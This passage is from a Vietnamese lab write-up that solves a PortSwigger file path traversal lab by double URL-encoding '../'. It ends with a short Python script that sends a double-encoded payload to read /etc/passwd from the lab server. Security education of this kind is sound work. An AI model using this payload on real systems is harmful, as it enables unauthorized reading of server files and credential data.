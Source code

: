 ![image](https://hackmd.io/_uploads/BkvfSvPYa.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải được lab

![image](https://hackmd.io/_uploads/HJgSHwPK6.png)

## 4. Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

link: https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode

### Đề bài

![image](https://hackmd.io/_uploads/rJ2jrPPF6.png)

### Phân tích

<ul>
    <li>tương tự bài trước mình đã dùng burp suite chặn các request và click vào View detail để chọn xem 1 sản phẩm
    </li>
    <li>và mình bắt được gói tin yêu cầu 1 file ảnh từ server 
    </li>
</ul>

![image](https://hackmd.io/_uploads/HJJV8wvYp.png)

### khai thác

<ul>
    <li>cũng như bài trước thì lab này cũng đã chặn các ký tự để chuyển thư mục </li>
    <li>và mình đã thử encode url để tránh bị filter các ký tự "../" và khi đến server các ký tự này vẫn được decode và thực hiện ý đồ mà chúng ta muốn</li>
</ul>

![image](https://hackmd.io/_uploads/BJkAwDwF6.png)

![image](https://hackmd.io/_uploads/rJGWuvwt6.png)

vẫn chưa được mình thử encode lần nữa và may mắn là đã thành công

![image](https://hackmd.io/_uploads/B1C7_vPKT.png)

![image](https://hackmd.io/_uploads/B1PSuDDFp.png)

mình đã viết lại script khai thác:

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# from bs4 import BeautifulSoup

url = 'https://0a1c00b903cb2012845f13fc0092009b.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + '/image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd',
    verify=False,
)

```